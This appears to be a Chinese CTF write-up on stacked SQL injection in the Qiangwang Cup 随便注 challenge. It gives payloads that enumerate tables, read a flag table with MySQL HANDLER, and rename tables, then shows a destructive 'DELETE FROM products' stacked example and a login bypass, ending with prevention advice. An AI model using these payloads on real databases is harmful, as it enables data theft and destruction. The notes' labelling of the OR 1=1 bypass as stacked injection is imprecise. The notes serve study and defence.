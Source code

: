 强网杯随便注，禁用了preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

```
1';show databases--+
-1';show databases;#  让前面闭合，然后一起回显，注意有时后面要有;
1'and extractvalue(1,concat(0x7e,(database())))--+
1';show tables;--+ 查看到表words和1919810931114514

看字段
1'; show columns from `words`;--+
1'; show columns from `1919810931114514`;--+

直接读表字段的值，知道1919810931114514表有flag字段
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

## **场景**

例如，考虑以下伪代码：

```
username = getRequestParameter("username")
password = getRequestParameter("password")

sql_query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
executeQuery(sql_query)
```

在这个例子中，应用程序接受了用户名和密码作为输入，并将它们拼接成一个 SQL 查询。如果应用程序没有对输入进行适当的验证和过滤，攻击者可以构造特定的输入，以便在用户名和密码字段中注入额外的 SQL 代码，从而实现堆叠注入攻击。

例如，攻击者可以构造以下输入：

```
username: ' OR 1=1; --
password: anything
```

这样，拼接后的 SQL 查询将变成：

```
SELECT * FROM users WHERE username='' OR 1=1; --' AND password='anything'
```

这将导致应用程序忽略密码验证，直接返回所有用户的记录，因为 `OR 1=1` 的条件始终为真。通过堆叠注入，攻击者可以绕过认证并执行恶意操作，比如获取敏感信息或者修改数据库内容。

要防止堆叠注入攻击，开发人员应该采取一系列的安全措施，包括使用参数化查询、合适的输入验证、过滤和转义来防止 SQL 注入。此外，最好避免将多个用户输入直接拼接成 SQL 查询或命令，而是使用安全的编程实践来处理用户输入。

